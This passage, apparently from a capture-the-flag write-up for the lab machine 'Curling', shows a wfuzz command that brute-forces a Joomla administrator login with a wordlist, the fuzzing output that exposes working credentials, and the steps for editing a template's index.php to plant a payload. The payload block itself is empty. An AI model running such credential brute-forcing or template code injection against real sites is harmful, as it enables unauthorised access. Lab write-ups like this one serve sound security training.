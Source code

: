 To do so we need to intercept the login request via burp, copy post data and cookies and pass it to wfuzz, replacing the parameter we want to brute with the keyword 'FUZZ'.  
When crafted the request will look as follows:  
```
[root@kali Curling ]$ wfuzz -w cewl.txt -b 'c0548020854924e0aecd05ed9f5b672b=v9ff8b7f27jb4i2c9t6ti6t71t; 99fb082d992a92668ce87e5540bd20fa=oura4b5mvht020nn76f54elo6v' -d 'username=FUZZ&passwd=Curling2018!&option=com_login&task=login&return=aW5kZXgucGhw&5338e62bfbd7d9179283485d7f71e932=1' -p 127.0.0.1:8080 -c http://10.10.10.150/administrator/index.php
```
Now we can run wfuzz and we get the following output:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

[... SNIP ...]
000000207:   200        114 L    373 W      5403 Ch     "row"
000000208:   200        114 L    373 W      5403 Ch     "associated"
000000205:   200        114 L    373 W      5403 Ch     "items"
000000209:   200        114 L    373 W      5403 Ch     "Your"
000000203:   200        114 L    373 W      5403 Ch     "verification"
000000201:   200        114 L    373 W      5403 Ch     "enter"
000000199:   200        114 L    373 W      5403 Ch     "Prev"
000000195:   200        114 L    373 W      5403 Ch     "will"
000000204:   200        114 L    373 W      5403 Ch     "code"
000000200:   200        114 L    373 W      5403 Ch     "Please"
000000194:   200        114 L    373 W      5403 Ch     "account"
000000193:   200        114 L    373 W      5403 Ch     "address"
000000202:   200        114 L    373 W      5403 Ch     "Submit"
000000197:   200        114 L    373 W      5403 Ch     "item"
000000196:   200        114 L    373 W      5403 Ch     "Next"
000000192:   200        114 L    373 W      5403 Ch     "email"
000000187:   303        0 L      0 W        0 Ch        "Floris"
000000188:   200        114 L    373 W      5403 Ch     "Email"
000000185:   200        114 L    373 W      5403 Ch     "content"
000000218:   200        114 L    373 W      5403 Ch     "new"
000000217:   200        114 L    373 W      5403 Ch     "choose"
000000191:   200        114 L    373 W      5403 Ch     "Atom"
000000189:   200        114 L    373 W      5403 Ch     "Address
```
As we can see, one of the request is giving 303 instead of 200. So we can guess that that request logins with user 'Floris' refers to a successful login.

## User
Once we are logged in into joomla administration page, we can navigate to Extensions -> Template -> Templates.  
Here there are two templates available, if we go back to the index source, we can see that the one that is installed is protostar:  
```
<link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
<link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
```
So let's upload our payload into this one.  
Let's edit the template index.php and add the following:
```
```